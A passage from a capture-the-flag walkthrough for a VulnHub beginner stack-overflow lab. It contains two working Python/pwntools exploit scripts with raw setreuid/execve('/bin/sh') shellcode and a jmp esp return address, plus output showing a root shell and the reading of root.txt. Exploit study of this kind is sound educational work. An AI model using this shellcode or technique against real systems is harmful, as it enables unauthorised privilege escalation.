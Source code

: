 

Here usage of the `pwntools` library is done due how simple it is send the payload to the binary.

A final exploit should look something like this which would use `struct` python library to pack the `jmp esp` address to little endian. 

```python
#!/usr/bin/env python2

# offset = 16
# eip = 20
# libc jmpesp = jmpcall esp libc : 0xf7dd0bb1 - jmp esp;

from pwn import *
import struct

junk = "A" * 16
libc_jmpesp = 0xf7dd0bb1
libc_jmpesp = struct.pack("<I",libc_jmpesp)
nops = "\x90" * 10
shellcode = (
"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
"\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
) # setreuid(geteuid(),geteuid()),execve("/bin/sh",0,0) 34byte universal shellcode

payload = junk + libc_jmpesp + nops + shellcode

io = process('./levelFive')
io.sendline(payload)
io.interactive()
```

When the exploit is executed, an interactive session as root should be started.

```bash
level4@kali:~$ ./exploit.py
[+] Starting local process './levelFive': pid 3433
[*] Switching to interactive mode
Enter your input: Buf: AAAAAAAAAAAAAAAA\xb1\x0b����\x90\x90\x90\x90\x90\x90\x90j1X\x99̀\x89É�jFX̀\xb0\x0bhn/shh//bi\x89��̀
$ id; cat /root/root.txt
uid=0(root) gid=1004(level4) groups=1004(level4)
1d0b5[REDACTED]
$
```

Of course only `pwntools` library can be used to create a working PoC.

```python
#!/usr/bin/env python2
from pwn import *

payload = ''
payload += "A" * 16
payload += p32(0xf7dd0bb1)
payload += "\90" * 10
payload += asm(shellcraft.i386.linux.setreuid())
payload += asm(shellcraft.i386.linux.sh())

p = process('./levelFive')
p.sendline(payload)
p.interactive()
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>